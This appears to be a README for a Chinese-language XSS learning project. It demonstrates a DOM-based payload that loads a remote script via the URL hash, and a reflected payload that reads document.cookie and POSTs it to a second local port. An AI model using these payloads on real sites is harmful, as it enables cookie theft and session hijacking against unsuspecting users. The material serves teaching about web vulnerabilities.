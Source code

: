 # xss_learn
xss学习

### dom 型

> dom 型由浏览器执行，与后端无关，需要前端规避。

访问 `domTest.html`，加上 hash 值：
```
// 可以通过本地 http-server 启动一个服务
http://127.0.0.1:8080/domTest.html#document.write("<script/src=//askybig.github.io/ImageStore/xss.js></script>")
```

### 反射型

> 反射型属于后端控制，对输入负责。

分别启动 3000 和 3001端口，在 3000页面输入url：
```
测试数据</h><script>(function () {var str = document.cookie;console.log('str', str);var request=new XMLHttpRequest();request.onreadystatechange=function(){if(request.readyState===4){if(request.status===200){console.log("success");return request}else{console.log("fail");return request}}else{}};request.open("POST","http://localhost:3001/xssattack");request.send(str);})()</script>
```
可以看到3000 端口的 Cookie 被 3001 拿到了。

![反射型](https://askybig.github.io/ImageStore/反射型.gif)

